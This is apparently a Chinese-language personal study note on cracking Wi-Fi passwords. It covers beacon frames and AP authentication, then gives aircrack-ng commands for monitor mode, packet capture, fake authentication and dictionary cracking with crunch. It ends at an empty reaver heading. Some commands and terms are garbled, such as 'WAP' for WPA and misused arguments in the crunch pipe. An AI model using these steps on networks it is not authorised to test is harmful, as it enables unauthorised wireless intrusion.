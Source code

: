 > WAP / WPA2 WiFi 密码加密协议。
> WEP 现在淘汰了。



可用网站：

> https://www.aircrack-ng.org/
> https://github.com/aircrack-ng/rtl8812au
> https://duckduckgo.com/
> 	->  reaver google code
> https://tools.kali.org/wireless-attacks/reaver

#### 1. 无线网络简介

Access Points (AP)，每个 AP 每秒发送约 10 个所谓的信标帧。这些数据包包含以下信息：

- Name of the network (ESSID)
- If encryption is used (and what encryption is used; pay attention, that may not be always true just because the AP advertises it)
- What MBit data rates are supported
- Which channel the network is on

每个AP都有一个唯一的MAC地址（48位，6对十六进制数字）。每个网络硬件设备都有一个这样的地址，并且网络设备通过使用此MAC地址相互通信。因此，它基本上就像一个唯一的名称。 MAC地址是唯一的，世界上没有两个网络设备具有相同的MAC地址。

##### 1.1 连接网络

如果要连接到无线网络，则有一些可能性。在大多数情况下，使用开放系统身份验证。

1. Ask the AP for authentication.
2. The AP answers: OK, you are authenticated.
3. Ask the AP for association
4. The AP answers: OK, you are now connected.

这是最简单的情况，但是如果您不合法连接，可能会出现一些问题：

- WPA/WPA2 is in use, you need EAPOL authentication. The AP will deny you at step 2.
- Access Point has a list of allowed clients (MAC addresses), and it lets no one else connect. This is called MAC filtering.
- Access Point uses Shared Key Authentication, you need to supply the correct WEP key to be able to connect. (See the [How to do shared key fake authentication? tutorial](https://www.aircrack-ng.org/doku.php?id=shared_key) for advanced techniques.)

#### 2. aircrack-ng

##### 2.1 安装

```bash
yum install aircrack-ng
```

##### 2.2 使用

```bash
ifconfig # 显示网络配置
# 关闭网卡
ifconfig wlp2s0 down / airmon-ng check kill
# 配置无线网卡为监听模式
iwconfig wlan0 mode monitor
# 启用网卡
ifconfig wlp2s0 up

airmon-ng start wlan0
airodump-ng wlan0mon # 监控
aireplay-ng --test wlan0 # Injection

airodump-ng -c 11 --bssid 00:01:02:03:04:05 -w dump wlan0mon # 连接
aireplay-ng --fakeauth 0 -e "your network ESSID" -a 00:01:02:03:04:05 wlan0mon # 干扰

aircrack-ng -w word_list dump.cap # 破解密码
crunch -t %%%%Thunder 1234567890 | aircrack-ng -w crack.cap -e BSSID
```



#### 3. reaver - (WAP)


